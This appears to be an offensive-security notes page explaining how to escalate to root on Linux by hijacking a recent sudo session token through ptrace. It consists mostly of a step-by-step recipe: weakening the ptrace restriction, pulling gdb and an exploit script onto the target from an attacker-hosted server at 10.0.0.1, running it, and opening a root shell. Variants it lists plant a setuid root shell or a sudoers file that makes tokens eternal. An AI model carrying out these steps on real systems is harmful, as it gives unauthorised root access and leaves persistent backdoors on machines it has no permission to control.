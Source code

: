 # Reuse Sudo Tokens

## Theory

In the scenario where you have a shell as a user with sudo privileges but you don't know the password of the user, you can wait for him/her to execute some command using sudo. Then, you can access the token of the session where sudo was used and use it to execute anything as sudo (privilege escalation).

## Practice

{% tabs %}
{% tab title="Enumerate" %}
Requirements to escalate privileges:

* The user have used sudo to execute something in the **last 15mins** (by default that's the duration of the sudo token that allows us to use sudo without introducing any password)
* There is no restriction on ptrace

```bash
cat /proc/sys/kernel/yama/ptrace_scope
0

# We can temporariliy set 0 if we have permissions.
echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope
```

* gdb is accessible (you can be able to upload it)

```bash
# In local machine, download the debian package.
wget http://fi.archive.ubuntu.com/ubuntu/pool/main/g/gdb/gdb_9.1-0ubuntu1_amd64.deb -O gdb.deb
python3 -m http.server

# In remote machine, download the deb package and extract it.
wget http://10.0.0.1:8000/gdb.deb
dpkg -x gdb.deb ~
```
{% endtab %}

{% tab title="Exploit" %}
Prepare the exploit script from the [sudo\_inject](https://github.com/nongiach/sudo_inject) repo and execute it.

```bash
# In local machine, download the shell script to exploit.
wget https://github.com/nongiach/sudo_inject/blob/master/exploit.sh
python3 -m http.server

# In remote machine, download it and execute.
wget http://10.0.0.1:8000/exploit.sh
sh exploit.sh
```

After that, we can spawn a sudo shell, or execute command as sudo with the token

```bash
#Activate the token
/tmp/activate_sudo_token

#Enjoy
sudo su
sudo /usr/bin/sudo-bin
```

{% hint style="info" %}
exploit.sh -> will create the binary activate\_sudo\_token in /tmp exploit\_v2.sh -> will create a sh shell in /tmp owned by root with setuid exploit\_v3.sh -> will create a sudoers file that makes sudo tokens eternal and allows all users to use sudo
{% endhint %}
{% endtab %}
{% endtabs %}

## References

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/#reuse-sudo-tokens" %}

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens" %}
